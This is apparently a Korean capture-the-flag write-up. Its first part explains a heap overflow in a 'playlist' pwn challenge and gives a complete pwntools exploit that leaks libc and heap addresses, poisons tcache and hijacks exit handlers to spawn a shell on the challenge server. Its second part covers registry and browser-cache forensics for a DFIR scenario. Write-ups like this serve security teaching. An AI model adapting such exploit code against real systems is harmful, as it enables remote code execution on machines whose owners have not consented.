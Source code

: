 작성자 : 조수호(shielder)

## pwn / playlist

```C
unsigned __int64 create()
{
  int i; // [rsp+0h] [rbp-120h]
  int v2; // [rsp+4h] [rbp-11Ch]
  int v3; // [rsp+4h] [rbp-11Ch]
  char *dest; // [rsp+8h] [rbp-118h]
  char s[128]; // [rsp+10h] [rbp-110h] BYREF
  char buf[136]; // [rsp+90h] [rbp-90h] BYREF
  unsigned __int64 v7; // [rsp+118h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  if ( song_len <= 63 )
  {
    memset(s, 0, sizeof(s));
    memset(buf, 0, 0x80uLL);
    printf("Enter song name: ");
    v2 = read(0, buf, 0x80uLL);
    if ( buf[v2 - 1] == 10 )
      buf[v2 - 1] = 0;
    printf("Enter artist: ");
    v3 = read(0, s, 0x80uLL);
    if ( s[v3 - 1] == 10 )
      s[v3 - 1] = 0;
    if ( buf[0] && s[0] )
    {
      dest = (char *)malloc(0x100uLL);
      if ( dest )
      {
        strcpy(dest, buf);
        strcpy(dest + 128, s);
        for ( i = 0; i <= 63; ++i )
        {
          if ( !song_chunk[i + 8] )
          {
            song_chunk[i + 8] = (__int64)dest;
            break;
          }
        }
        ++song_len;
        puts("Song added to playlist!");
      }
      else
      {
        puts("Memory allocation failed!");
      }
    }
    else
    {
      puts("Invalid input!");
    }
  }
  else
  {
    puts("Playlist is full!");
  }
  return v7 - __readfsqword(0x28u);
}
```

`create`의 `strcpy`에서 힙 오버플로우가 발생한다. 이를 이용해서 size 조작을 할 수 있고, 서로 다른 위치에 있는 unsorted bin이 두 개 있으면 힙주소도 저장되기 때문에 립씨, 힙릭 모두 가능하다. 익스는 `strcpy`가 null까지만 복사하고, null까지 복사하기 때문에 가장 편한 방법인 `exit handler overwrite`로 진행하였다.

## ex.py

```python
from pwn import *
from tqdm import *
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('-r', '--remote', action='store_true', help='Connect to remote server')
parser.add_argument('-g', '--gdb', action='store_true', help='Attach GDB debugger')
args = parser.parse_args()

gdb_cmds = [
    'set follow-fork-mode parent',
    'b *exit',
    'c'
]

binary = './prob'
 
context.binary = binary
context.arch = 'amd64'
# context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

if args.remote:
    p = remote("43.200.69.175", 31338)
else:
    p = process(binary)
    if args.gdb:
        gdb.attach(p, '\n'.join(gdb_cmds))
l = ELF('./libc.so.6')

def create(ctt1 : int, ctt2 : bytes):
    p.sendlineafter(b'> ', b'1')
    p.sendafter(b': ', ctt1)
    p.sendafter(b': ', ctt2)

def delete(idx : int):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b': ', str(idx).encode())

def read():
    p.sendlineafter(b'> ', b'3')

for i in trange(50):
    create(b'a', b'a')
delete(0)
create(b'a' * 8 + p16(0x551), b'a' * 0x80)
delete(1)
create(b'a', b'a') # 1
read()
p.recvuntil(b'2. ')
l.address = u64(p.recvn(6).ljust(8, b'\x00')) - 0x203b20
print(hex(l.address))

create(b'a', b'a') # 2
delete(2)
read()
p.recvuntil(b'50. ')
heap_base = u64(p.recvn(5).ljust(8, b'\x00')) << 12
print(hex(heap_base))

point_guard = l.address - 0x2890
initial = l.address + 0x204fc0
print(hex(point_guard))
print(hex(initial))
create(b'a', b'a') # 3
create(b'a', b'a') # 4
delete(3)
delete(2)
delete(1)
create(b'a' * 0x10 + p64(point_guard ^ (heap_base >> 12)), b'a' * 0x80)
for i in trange(7, 2, -1):
    delete(1)
    create(b'a' * (8 + i), b'a' * 0x80)
delete(1)
create(b'a' * 0x8 + p64(0x111), b'a' * 0x80)
create(b'a', b'a') # 2
create(b'a' * 0x8, b'a' * 1)
delete(13)
delete(2)
delete(1)
# p.interactive()
create(b'a' * 0x10 + p64((initial + 0x10) ^ (heap_base >> 12)), b'a' * 0x80)
for i in trange(7, 2, -1):
    delete(1)
    create(b'a' * (8 + i), b'a' * 0x80)
delete(1)
create(b'a' * 0x8 + p64(0x111), b'a' * 0x80)
create(b'a', b'a') # 2
binsh = list(l.search(b'/bin/sh'))[0]
sys_enc = rol(l.sym['system'] ^ u64(b'a' * 8), 0x11)
create(b'b' * 0x8 + p64(sys_enc) + p64(binsh), b'a' * 1)
idx = 15

for i in trange(7, 0, -1):
    idx += 1
    delete(idx)
    delete(2)
    delete(1)
    create(b'a' * 0x10 + p64((initial - 0x10) ^ (heap_base >> 12)), b'a' * 0x80)
    for j in range(7, 2, -1):
        delete(1)
        create(b'a' * (8 + j), b'a' * 0x80)
    delete(1)
    create(b'a' * 0x8 + p64(0x111), b'a' * 0x80)
    create(b'a', b'a') # 2
    create(b'c' * 0x20 + b'\x04' * i, b'a')
print(idx)
for i in trange(15, -1, -1):
    if i == 8 : i -= 1
    idx += 1
    delete(idx)
    delete(2)
    delete(1)
    create(b'a' * 0x10 + p64((initial - 0x10) ^ (heap_base >> 12)), b'a' * 0x80)
    for j in range(7, 2, -1):
        delete(1)
        create(b'a' * (8 + j), b'a' * 0x80)
    delete(1)
    create(b'a' * 0x8 + p64(0x111), b'a' * 0x80)
    create(b'a', b'a') # 2
    create(b'\x01' * (0x10 + i), b'a')
p.sendlineafter(b'> ', b'4\n')
p.interactive()
```
![[Pasted image 20251024162846.png]]
# dfir / 시나리오-1

`C:\Windows\System32\config\SYSTEM`에서 `ControlSet001\Control\ComputerName\ComputerName` 레지스트리에서 호스트 네임 `DESKTOP-ABDAIP8`를 확인할 수 있다.  `ControlSet001\Tcpip\Parameters\Interfaces` 레지스트리에서 IP `192.168.18.123`을 확인할 수 있다. `ControlSet001\Control\TimeZoneInformation`에서 KST를 사용함을 확인하고, `C:\Windows\System32\config\SOFTWARE`에서 `Microsoft\Windows NT\CurrentVersion`에서 InstallDate `1760081313`을 확인할 수 있고, 이는 한국시간으로 2025년 10월 10일 16시 28분 33초이다. 크롬의 히스토리에서 다른 정상적인 파일 사이에 Guide.zip이라는 수상한 파일을 다운받은 것을 확인하였고, `Chrome Cache`에서 이를 찾아 extract하여 md5sum하면 `01255bb80bc6ba1b5198b48804386bdf`이다.

![[Pasted image 20251024163059.png]]![[Pasted image 20251024163119.png]]